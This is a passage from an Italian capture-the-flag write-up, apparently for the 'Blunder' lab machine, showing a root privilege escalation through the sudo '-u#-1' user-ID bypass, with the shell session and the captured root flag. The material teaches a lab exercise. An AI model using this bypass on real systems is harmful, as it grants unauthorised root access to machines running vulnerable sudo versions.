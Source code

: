 Quando esegui sudo, puoi inserire -u [utente] per indicare con quale utente eseguire. Puoi anche inserire l'utente come numero nel formato -u#[uid]. root viene utilizzato con ID 0, quindi posso provare:

```bash
hugo@blunder:~$ sudo -u#0 /bin/bash 
Password: 
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
```

Finora le cose stanno funzionando come previsto. La vulnerabilità è che posso inserire l'ID utente -1 e sudo lo tratterà come root. Funziona:

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password:
root@blunder:/home/hugo#

```

ed ecco la nostra root_flag

```bash
root@blunder:/home/hugo# cat /root/root.txt
f659347e0de211cf75befb0346da0aac
```
